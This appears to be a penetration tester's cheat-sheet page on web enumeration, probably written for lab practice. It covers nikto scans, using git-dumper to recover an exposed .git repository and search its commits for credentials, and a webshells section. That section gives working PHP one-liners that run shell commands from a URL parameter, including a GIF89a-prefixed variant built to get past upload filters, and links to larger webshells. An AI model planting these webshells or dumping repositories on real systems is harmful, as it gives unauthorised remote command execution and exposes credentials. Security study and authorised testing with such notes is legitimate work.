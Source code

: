 **Login page?**
- [[Credentials]]

---


## .git?

**Rerun Nmap scan if vhost wasn't added to hosts file!**
- [[Bullybox]]
```bash
# Identify using Nikto
nikto -h <URL>
nitko -h <domain>
```

Use git-dumper: [https://github.com/arthaud/git-dumper](https://github.com/arthaud/git-dumper)
```shell
mkdir /tmp/test
./git-dumper <URL> /tmp/test
```

Enumerate git repo:
```shell
cd /tmp/test
git log
git show <commit-id>
git diff <commit-id1> <commit-id2> # Checks the difference between 2 commits
```
>[!warning]
>Check each commit for possible credentials


---


## Webshells

Basic & Small:
```shell
<pre><?php system($_GET["cmd"]); ?></pre> # ?cmd=id
<?='$_GET[0]'?> # ?0=id
```

With GIF magic byte:
```shell
GIF89a;
<pre><?php system($_GET["cmd"]); ?></pre>
```

Advanced webshells:
- [Topchef](https://github.com/alexandre-pecorilla/Binaries-Scripts/blob/main/topchef.php)
- [p0wny](https://github.com/flozz/p0wny-shell)


--- 
